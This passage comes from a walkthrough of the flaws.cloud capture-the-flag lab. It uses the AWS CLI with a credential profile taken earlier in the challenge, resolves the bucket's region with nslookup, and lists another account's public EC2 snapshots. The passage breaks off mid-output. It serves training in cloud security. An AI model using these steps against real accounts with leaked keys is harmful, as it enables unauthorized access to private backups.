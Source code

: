 Using that command also tells you the name of the account, which in this case is named "backup". The backups this account makes are snapshots of EC2s. Next, discover the snapshot: 
```
aws --profile sike ec2 describe-snapshots --owner-id 975426262029
```
```
You must specify a region. You can also configure your region by running "aws configure".
```

To identify a region, we need to run nslookup on domain.
```
└─$ nslookup level4-1156739cfb264ced6de514971a4bef68.flaws.cloud           
```
```
Server:         8.8.8.8
Address:        8.8.8.8#53

Non-authoritative answer:
Name:   level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
Address: 52.92.145.91
Name:   level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
Address: 52.92.209.203
Name:   level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
Address: 52.218.246.122
Name:   level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
```
and now on ip:
```
└─$ nslookup 52.92.145.91 && nslookup 52.92.209.203 
```
```
91.145.92.52.in-addr.arpa       name = s3-website-us-west-2.amazonaws.com.

203.209.92.52.in-addr.arpa      name = s3-website-us-west-2.amazonaws.com.
```
We have identify that this snapshot is in us-west-2 region.

Now configure us-west-2 region.
```
└─$ aws configure --profile sike
```
```
AWS Access Key ID [****************T7SA]: 
AWS Secret Access Key [****************3Jys]: 
Default region name [None]: us-west-2
Default output format [None]: 
```
We specify the owner-id just to filter the output. 
```
└─$ aws --profile sike ec2 describe-snapshots --owner-id 975426262029
```
```
{
    "Snapshots": [
        {
            "Description": "",
            "Encrypted": false,
            "OwnerId": "975426262029",
            "Progress": "100%",
            "SnapshotId": "snap-0b49342abd1bdcb89",
            "StartTime": "2017-02-28T01:35:12+00:00",
            "State": "completed",
            "VolumeId": "vol-04f1c039bc13ea950",
            "VolumeSize": 8,
            "Tags": [
                {
                    "Key": "Name",
                    "Value": "flaws backup 2017.02.27"
```